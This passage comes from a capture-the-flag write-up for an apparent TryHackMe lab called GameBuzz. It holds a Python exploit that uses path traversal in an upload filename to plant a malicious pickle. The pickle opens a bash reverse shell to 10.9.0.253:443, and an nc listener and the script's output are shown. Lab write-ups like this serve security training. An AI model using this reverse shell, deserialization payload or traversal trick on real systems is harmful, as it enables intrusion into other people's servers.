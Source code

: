 We successfully uploaded a file. But where does the file lives??

However, I couldn't find the uploaded file.

Maybe we can upload our file to a specific path via **path traversal**?

**To do so, I'll write a Python script to upload and trigger the deserialization payload:**
```py
#!/usr/bin/env python3

import requests
import pickle
import os

class PickleRCE:
    def __reduce__(self):
        return (os.system,("bash -c '/bin/bash -i >& /dev/tcp/10.9.0.253/443 0>&1' ",))


def main():
    uploadURL = 'http://dev.incognito.com/secret/upload/script.php'
    uploadData = {'submit': 'Start Upload'}

    filename = 'evilObject.pkl'
    file = {
        'the_file': (f'../../../../../../../../../var/upload/games/{filename}', pickle.dumps(PickleRCE()))
    }

    uploadRequestResult = requests.post(uploadURL, data=uploadData, files=file)
    print(f'[*] Upload file request:\n{uploadRequestResult.text}')

    pickleURL = 'http://incognito.com/fetch'
    pickleData = {'object': f'/var/upload/games/{filename}'}

    pickleRequestResult = requests.post(pickleURL, json=pickleData)
    print(f'[*] Fetch pickle request:\n{pickleRequestResult.text}')

if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:14:25(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:16:47(HKT)]
└> python3 upload_file.py
[*] Upload file request:
The file evilObject.pkl has been uploaded
[*] Fetch pickle request:
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```
